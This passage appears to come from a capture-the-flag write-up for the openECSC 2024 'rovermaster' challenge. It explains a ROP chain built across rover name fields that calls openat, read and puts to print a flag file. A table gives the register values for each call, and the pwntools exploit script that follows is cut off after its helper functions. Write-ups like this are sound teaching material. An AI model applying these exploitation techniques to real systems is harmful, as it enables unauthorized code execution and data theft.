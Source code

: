 I start writing part of the ROP in the `planet_name` of rover 1, then another part in the `rover_name` of the same rover, and continue in the adjacent rover attributes, and so on.

The signatures of the functions called during the ROP are:

```c
int openat(int dirfd, const char *pathname, int flags);
ssize_t read(int fd, void *buf, size_t count);
int puts(const char *s);
```

{{< figure src="/img/openECSC/rovermaster/openat.png" position="left" caption="GDB debugging, registers r4 and r5 before executing openat" captionPosition="left">}}

| Step | Scope       | Value of the register *r3*                                                                                             | Value of the register *r4*                                                                                    | Value of the register *r5*                                                                                                                                          |
| ---- | ----------- | ---------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1    | Call openat | No need to set because the path in *r4* is absolute.                                                                   | Address of the buffer containing `/home/user/flag`                                                            | Must be cleared to zero: `O_RDONLY`                                                                                                                                 |
| 2    | Call read   | No need to set it because it will contain the return value of `openat`, which is the file descriptor of the flag file. | No need to set it because it remains unchaged by `openat`. We overwrite the flag's path with the flag itself. | It must contain the number of characters to read. I've found a gadget to copy the content of register *r4* into *r5*, which might seem like overkill, but it works. |
| 3    | Call puts   | It must contain the address of the buffer where we read earlier.                                                       | Not in use.                                                                                                   | Not in use.                                                                                                                                                         |

{{< figure src="/img/openECSC/rovermaster/read.png" position="left" caption="GDB debugging, registers r3,r4 and r5 before executing read." captionPosition="left">}}


{{< figure src="/img/openECSC/rovermaster/puts.png" position="left" caption="GDB debugging, register r3 before executing puts." captionPosition="left">}}

Here is the full script:

```python
from pwn import *

r = remote("rovermaster.challs.open.ecsc2024.it", 38007)

rover = lambda x: 0x10110216 + (x * 0x20E)
planet = lambda x: 0x10110116 + (x * 0x20E)


def choose_rover(r, rover):
    r.sendlineafter(b":", b"1")
    r.sendlineafter(b"rover:", rover)


def send_cmd(r, action_id):
    r.sendlineafter(b"Option:", b"2")
    r.sendlineafter(b"action:", action_id)


def set_planet(r, size, name):
    send_cmd(r, b"1")

    r.sendlineafter(b"Option:", b"3")
    r.sendlineafter(b"size:", f"{size}".encode())
    r.sendlineafter(b"planet:", name)


def set_name(r, size, name):
    send_cmd(r, b"3")

    r.sendlineafter(b"Option:", b"3")
    r.sendlineafter(b"size:", f"{size}".encode())
    r.sendlineafter(b"name:", name)


set_r31 = 0x0000000010022144  # addi r1, r1, 0x40 ; ld r0, 0x10(r1) ; ld r31, -8(r1) ; mtlr r0 ; blr
```